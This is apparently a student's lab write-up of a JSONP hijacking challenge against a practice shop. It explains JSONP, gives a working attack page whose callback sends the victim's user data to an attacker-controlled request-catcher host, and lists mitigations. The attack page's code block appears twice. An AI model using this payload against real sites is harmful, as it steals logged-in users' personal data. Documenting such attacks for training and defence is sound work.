 # JSON Hijacking Attack with JSONP

## Challenge

This challenge is about JSON \(JSONP\) hijacking. By doing such an attack you should understand the theory.

## Answer

### Explain the security problem 

* **JSONP** = JavaScript Object Notation with **Padding**
* Technique used to circumvent the Same-Origin Policy when transferring data with AJAX across

  different domains

* Browsers do not enforce SOP on the HTML &lt;script&gt; tag
* Padding refers to characters around the JSON payload, e.g.
  * `callback({employees: [{“firstName”: “John”, “lastName”: “Doe”}, ...]})`



### Explain your attack. \(exploit, screenshot, hacking journal\) 

Step 1\) Use old cowbell shop, buy some bells

![](../../.gitbook/assets/image%20%28366%29.png)

Step 2\) Use Theia Web IDE and change the change\_me.html to the following:

{% code title="change\_me.html" %}
```markup
<html>
<head>
<script>
var target="https://41961063-5823-447b-86c0-42221f35dfe6.idocker.vuln.land/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="https://glocken.vm.vuln.land/12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>
<html>
<head>
<script>
var target="https://41961063-5823-447b-86c0-42221f35dfe6.idocker.vuln.land/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="https://glocken.vm.vuln.land//12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>

```
{% endcode %}



Step 3\) Send attacker URL to the victim

![](../../.gitbook/assets/image%20%28378%29.png)

Step 4\) 

![](../../.gitbook/assets/image%20%28373%29.png)

Step 5\) 

```markup
<html>
<head>
<script>
var target="https://REQUEST_CATCHER_FQDN/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="{VULNERABLE COWBELL SHOP}/12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>
```

The attacker is defining the `invoke` method before `script src` an URL from the cowbell shop. The json data returned by the cowbell shop are jsonp - json with padding. This makes the hacker happy - as he can now exfiltrate the json data via his own `invoke` implementation.

### Explain mitigation \(remedy\)

* Use Anti XSRF-Tokens
* Begin the JSON-Response with an infinite loop:
* DO NOT USE JSONP!



